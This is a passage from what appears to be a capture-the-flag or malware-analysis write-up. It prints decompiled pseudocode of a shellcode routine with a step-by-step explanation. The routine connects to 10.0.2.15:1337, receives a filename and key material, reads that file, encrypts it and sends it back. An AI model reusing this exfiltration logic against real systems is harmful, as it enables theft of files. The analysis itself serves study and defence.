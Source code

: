 # shellcode

Looking through the functions from the decrypted bytes, we can see that there's a function `sub_4E02` which performs the main logic of the shellcode
```c
__int64 __fastcall sub_4E02(__int64 a1, __int64 a2, __int64 a3)
{
  unsigned int v3; // ebx
  signed __int64 v4; // rax
  signed __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  signed __int64 v8; // rax
  signed __int64 v9; // rax
  unsigned __int64 v10; // kr08_8
  signed __int64 v11; // rax
  signed __int64 v12; // rax
  char ubuf[32]; // [rsp+410h] [rbp-1278h] BYREF
  char v15[16]; // [rsp+430h] [rbp-1258h] BYREF
  char filename[256]; // [rsp+440h] [rbp-1248h] BYREF
  char buf[4224]; // [rsp+540h] [rbp-1148h] BYREF
  unsigned int size; // [rsp+15C0h] [rbp-C8h] BYREF
  unsigned int size_4; // [rsp+15C4h] [rbp-C4h] BYREF

  LOWORD(a3) = 1337;
  v3 = sub_405A(a1, a2, a3);                         // [0]
  v4 = sys_recvfrom(v3, ubuf, 0x20uLL, 0, 0LL, 0LL); // [1]
  v5 = sys_recvfrom(v3, v15, 0xCuLL, 0, 0LL, 0LL);   // [2]
  v6 = sys_recvfrom(v3, &size, 4uLL, 0, 0LL, 0LL);   // [3]
  v7 = sys_recvfrom(v3, filename, size, 0, 0LL, 0LL);// [4]
  filename[(int)v7] = 0;
  v8 = sys_open(filename, 0, 0);                     // [5]
  v9 = sys_read(v8, buf, 0x80uLL);                   // [6]
  v10 = strlen(buf) + 1;
  size_4 = v10 - 1;
  sub_4D12(&buf[v10], buf, ubuf, v15, 0LL);          // [7]
  sub_4D89(&buf[v10], buf, buf, size_4);             // [8]
  v11 = sys_sendto(v3, &size_4, 4uLL, 0, 0LL, 0);    // [9]
  v12 = sys_sendto(v3, buf, size_4, 0, 0LL, 0);      // [10]
  sub_404B();                                        // [11]
  sub_40CF(v3, buf, 0LL);                            // [12]
  return 0LL;
}
```

- `[0]`: opens a socket and makes a connection to `10.0.2.15` on port `1337`
- `[1]`: receives 32 bytes of data
- `[2]`: receives 12 bytes of data
- `[3]`: receives 4 bytes of data
- `[4]`: receives x bytes of data based on `[3]`
- `[5]`: opens the file with the filename from `[4]`
- `[6]`: reads 128 bytes from `[5]`
- `[7]`: calls `sub_4D12`
- `[8]`: calls `sub_4D89`
- `[9]`: sends 4 bytes of data (size of `buf`)
- `[10]`: sends `buf`
- `[11]`: calls `sys_close`
- `[12]`: calls `shutdown`
